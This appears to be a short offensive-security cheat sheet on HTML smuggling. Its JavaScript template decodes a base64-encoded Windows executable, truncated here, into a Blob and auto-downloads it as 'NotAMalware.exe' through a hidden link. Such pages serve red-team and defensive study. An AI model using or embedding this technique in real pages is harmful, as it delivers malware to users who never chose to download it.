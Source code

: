 # HTML Smuggling

## Summary

- [Description](#description)
- [Executable Storage](#executable-storage)

## Description

HTML Smuggling consists of making a user to navigate to our crafted HTML page which automaticaly download our malicious file.

## Executable storage

We can store our payload in a Blob object => JS: `var blob = new Blob([data], {type: 'octet/stream'});`
To perform the download, we need to create an Object Url => JS: `var url = window.URL.createObjectURL(blob);`
With those two elements, we can create with Javascript our \<a> tag which will be used to download our malicious file:

```Javascript
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```

To store ou payload, we use base64 encoding:

```Javascript
function base64ToArrayBuffer(base64) {
 var binary_string = window.atob(base64);
 var len = binary_string.length;
 var bytes = new Uint8Array( len );
 for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
 return bytes.buffer;
}
       
var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'NotAMalware.exe';
```
